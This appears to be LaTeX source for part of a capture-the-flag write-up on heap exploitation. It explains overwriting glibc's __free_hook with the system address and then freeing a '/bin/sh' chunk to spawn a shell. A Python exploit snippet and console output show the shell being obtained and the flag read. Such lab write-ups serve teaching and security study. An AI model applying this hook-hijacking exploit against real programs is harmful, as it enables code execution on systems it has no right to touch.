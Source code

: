 \documentclass{article}
\numberwithin{equation}{subsection}
\begin{document}
\subsubsection{Overwrite the \_\_free\_hook entry}
What is left to be done is overwriting the \texttt{\_\_free\_hook} entry with the \texttt{system} address to hijack the control flow, code \ref{lst:hijack-control-flow}. To achieve this goal it is sufficient to allocate a new chunk of whatever size, whose payload is the \texttt{system} address, line \ref{line:p-overwrite-free-hook}. To avoid dealing with alignment purposes, we can inject several time the same address. At this point hijacking the control flow is as simple as deleting the chunk whose name is \textit{``/bin/sh''}, line \ref{line:p-hijack-control-flow}. As shown in code \ref{lst:get-the-flag}, a shell is spawn, we can finally get our flag!\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=pythonstyle}
\begin{lstlisting}[caption={Control flow hijacking with python script.},captionpos=b,label={lst:hijack-control-flow}]
    # Overwrite __free_hook
    print("[5]-Overwriting __free_hook with the system address...")
    new_article("powned", 123, p64(libc.symbols['system'])*3)~\label{line:p-overwrite-free-hook}~
    
    # Hijack the control flow
    delete_article(7)~\label{line:p-hijack-control-flow}~
    time.sleep(1)
    
    print("[6]-Getting the flag:")
    p.sendline('cat flag')
    p.interactive()
\end{lstlisting}
\end{minipage}
\begin{minipage}{\textwidth}
\centering
\lstset{style=consolestyle}
\begin{lstlisting}[caption={Getting the flag.}, 
captionpos=b,label={lst:get-the-flag}]
xman@ubuntu:/$ ./x.py
...
[3]-Preparing house of force...
[4]-Overwriting the top chunk size...
[5]-Overwriting __free_hook with the system address...
[6]-Getting the flag:
[*] Switching to interactive mode
/bin/sh was deleted
flag{wow_you_got_the_heap+power!}
$  
\end{lstlisting}
\end{minipage}
\end{document}
